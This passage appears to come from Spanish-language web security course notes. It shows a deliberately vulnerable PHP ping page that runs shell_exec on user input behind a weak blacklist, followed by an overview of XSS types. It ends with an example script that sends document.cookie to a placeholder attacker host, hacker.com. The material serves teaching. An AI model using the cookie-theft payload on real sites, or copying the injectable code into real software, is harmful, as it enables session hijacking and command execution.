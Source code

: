 #### Medium

```php
<?php
    if (isset($_POST['submit'])) {

        $target = $_REQUEST['ip'];

        // Remove any of the charactars in the array (blacklist).
        $substitutions = array(
            '&&' => '',
            ';' => '',
        );

        $target = str_replace(array_keys($substitutions), $substitutions, $target);
        
        // Determine OS and execute the ping command.
        if (stristr(php_uname('s'), 'Windows NT')) { 
            $cmd = shell_exec( 'ping  ' . $target );
            echo '<pre>' . $cmd . '</pre>';
        } else { 
            $cmd = shell_exec('ping  -c 3 ' . $target);
            echo '<pre>' . $cmd . '</pre>';
        }
    }
?>
```

## 3.4 Cross Site Scripting (XSS)

- Un atacante manda un trozo de código (vector de ataque) al navegador de la víctima aprovechando un fallo en una aplicación web

- Sucede **cuando la aplicación no valida la entrada**
- Robar sesiones, defacing, introducir malware, ...
- Formas de sofisticación:
    - **Esconder** el vector de ataque en **tags HTML** (iframes, imágenes, ...)
    - **Codificar** el vector (Unicode)

- Tipos de XSS
    - Persistente (XSS Stored)
        - El código introducido se almacena de manera permanente (BD, ...)
    - No persistente (XSS Reflected)
        - Los ataques llegan a la víctima a través de otro ruta (un email, modificación directa de parámetros en la URL…)
    - Inyección en DOM
        - El código inyectado manipula el código JS or variables de la aplicación en vez de los objetos HTML
    - Ejemplo:

        ```text
        Comentario=“¡Me encanta la web! <script>
        window.open(http://hacker.com/info.pl?document.cookie)</script>
        ```
